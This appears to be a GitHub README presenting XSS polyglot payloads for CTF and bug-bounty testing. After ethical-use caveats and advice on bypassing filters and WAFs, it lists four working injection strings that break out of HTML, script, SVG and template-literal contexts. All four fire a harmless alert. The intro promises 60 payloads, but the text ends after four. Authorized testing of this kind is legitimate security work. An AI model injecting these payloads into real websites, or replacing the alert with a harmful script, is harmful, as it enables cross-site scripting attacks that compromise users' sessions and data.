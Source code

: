 # Ultimate XSS Polyglot Payloads for Ethical Bug Hunting & CTF

This collection provides 60 advanced polyglot payloads for Capture The Flag (CTF) challenges and authorized bug bounty programs. Designed to work across multiple contexts (HTML, JavaScript, CSS, SVG, JSON, XML, DOM, and more), these payloads help test for Cross-Site Scripting (XSS) vulnerabilities while bypassing common filters and Web Application Firewalls (WAFs). Each payload triggers a benign `alert('CTF')` to confirm execution without causing harm.

## Usage Guidelines
- **Ethical Use Only**: Use these payloads only in environments where you have explicit permission (e.g., CTFs, bug bounty programs with clear scope). Unauthorized testing is illegal and unethical.
- **Context Testing**: Inject payloads into various input points (URL parameters, form inputs, headers, APIs) to maximize coverage.
- **Filter Evasion**: Combine with encoding (e.g., URL, HTML entities, Unicode), case variation, or whitespace manipulation to bypass filters.
- **Tool Integration**: Use tools like Burp Suite, OWASP ZAP, or Wireshark to automate injections and analyze responses.
- **Responsible Testing**: Minimize impact by using benign alerts and report findings immediately without further exploitation.
- **CTF Strategy**: Leverage payloads incrementally, starting with simple ones to map sanitization weaknesses, and use tools like YARA for pattern matching in CTF challenges.

## Payload Categories

### JavaScript/HTML Polyglots
1. **Universal Context Breaker**  
   ```
   javascript://%0d%0aalert('CTF')//%0d%0a--></script><svg/onload=alert('CTF')>
   ```
   - **Contexts**: JavaScript, HTML, SVG, comments, URL.
   - **Use Case**: Escapes multiple contexts; ideal for URL parameters or script tags.

2. **Multi-Event Polyglot**  
   ```
   " onmouseover=alert('CTF') onfocus=alert('CTF') autofocus//<svg onload=alert('CTF')>
   ```
   - **Contexts**: HTML attributes, SVG, comments.
   - **Use Case**: Tests multiple event handlers in form inputs.

3. **Template Literal Injection**  
   ```
   ${alert('CTF')}//</script><svg onload=alert('CTF')>
   ```
   - **Contexts**: JavaScript templates, HTML, SVG.
   - **Use Case**: Targets ES6 template literal reflections.

4. **Script and SVG Combo**  
   ```
   <script>alert('CTF')</script><svg onload=alert('CTF')>
   ```
   - **Contexts**: JavaScript, HTML, SVG.
   - **Use Case**: Tests direct script and SVG rendering.
